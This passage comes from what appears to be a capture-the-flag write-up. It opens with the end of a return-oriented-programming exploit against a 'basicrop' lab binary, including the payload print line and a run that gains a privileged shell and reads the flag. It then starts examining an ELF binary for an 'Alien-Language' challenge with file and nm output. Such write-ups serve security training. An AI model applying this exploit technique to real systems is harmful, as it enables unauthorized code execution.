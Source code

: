 print padding+fuckit_addr+execve+syscall_addr
</code></pre>
And then we test it:<pre><code class="bash">$ (python /tmp/dagger/basicrop.py;cat)|./basicrop 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@;�@id
uid=1334(dagger) gid=1334(dagger) euid=1308(basic_rop-solved) egid=1307(basic_rop) groups=1307(basic_rop),1002(tocttou),1305(robot_cop),1306(2befree),1311(botoxedstring),1312(fakemalware-killswitch),1334(dagger)
cat flag
flag{r0ppin9_Y0ur_waY_t0_h3aveN}</code></pre>
Done.
#3. Alien-Language
This challenge was in the cryptographic category but, for me, it was mostly a reversing challenge than cryptographic. (Maybe there was an other method to solve it...)

This challenge was made with an elf-64 binary. So we began by examining it:<pre><code class="bash">$ file alien 
alien: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a87da1012726ca02b0c683891ff6b35620b32e42, not stripped

$ ls -lh alien 
-rwxr-xr-x 1 meffre_q meffre_q 8.4K Sep 21 21:05 alien

$ nm alien 
0000000000201048 B __bss_start
0000000000201048 b completed.6973
                 w __cxa_finalize@@GLIBC_2.2.5
0000000000201038 D __data_start
0000000000201038 W data_start
0000000000000670 t deregister_tm_clones
0000000000000700 t __do_global_dtors_aux
0000000000200de8 t __do_global_dtors_aux_fini_array_entry
0000000000201040 D __dso_handle
0000000000200df0 d _DYNAMIC
0000000000201048 D _edata
0000000000201050 B _end
0000000000000b04 T _fini
0000000000000740 t frame_dummy
0000000000200de0 t __frame_dummy_init_array_entry
0000000000000cec r __FRAME_END__
0000000000201000 d _GLOBAL_OFFSET_TABLE_
                 w __gmon_start__
0000000000000ba0 r __GNU_EH_FRAME_HDR
00000000000005d0 T _init
0000000000200de8 t __init_array_end
0000000000200de0 t __init_array_start
0000000000000b10 R _IO_stdin_used
                 w _ITM_deregisterTMCloneTable
                 w _ITM_registerTMCloneTable
0000000000000b00 T __libc_csu_fini
0000000000000a90 T __libc_csu_init
                 U __libc_start_main@@GLIBC_2.2.5
000000000000091f T main
000000000000074a T my_open
                 U printf@@GLIBC_2.2.5
00000000000006b0 t register_tm_clones
                 U __stack_chk_fail@@GLIBC_2.4
0000000000000640 T _start
                 U strlen@@GLIBC_2.2.5
0000000000201048 D __TMC_END__
                 U write@@GLIBC_2.2.5
